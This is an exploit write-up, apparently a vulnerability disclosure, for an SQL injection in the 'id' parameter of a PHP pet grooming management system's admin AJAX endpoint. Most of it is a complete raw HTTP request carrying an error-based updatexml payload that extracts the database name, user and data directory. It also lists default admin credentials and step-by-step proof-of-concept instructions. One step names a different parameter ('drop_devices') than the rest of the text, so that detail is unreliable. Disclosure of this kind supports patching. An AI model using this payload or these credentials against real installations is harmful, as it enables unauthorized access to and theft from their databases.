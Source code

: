 

# Pet grooming management software - ajax_represent.php '**id**' SQL inject

#### Exploit Title: Pet grooming management software - ajax_represent.php 'id' SQL inject

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: [https://www.sourcecodester.com](https://www.sourcecodester.com/)

#### Software Link:https://www.sourcecodester.com/php/18340/pet-grooming-management-software-download.html

#### Version: Pet grooming management software 1.0

#### Tested on: Windows 10, Apache ,Mysql

#### Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Pet grooming management software does not filter the content correctly at the "ajax_represent.php/id" parameter, resulting in the generation of SQL injection.

#### Payload used:

```
POST /admin/ajax_represent.php HTTP/1.1
Host: 192.168.67.28:8021
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.67.28:8021/
Origin: http://192.168.67.28:8021
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Cookie: PHPSESSID=e68auo56o4aja1o1vp829pfesl
Cache-Control: max-age=0
Content-Length: 45

id=1' and updatexml(1,concat(0x7e,database(),0x7e,user(),0x7e,@@datadir),1)#
```

#### Proof of Concept

1、Log in to the system using the default password mdkhairnar92@gmail.com: admin

2、By examining the /admin/ajax_represent.php code, it was discovered that the drop_devices parameter was concatenated in the SQL statement

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/coderepresent.png)

3、We can construct SQL statements to query the name of the database and the name of  user

payload:`id=1' and updatexml(1,concat(0x7e,database(),0x7e,user(),0x7e,@@datadir),1)#`

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/sqlajaxrepresent.png)
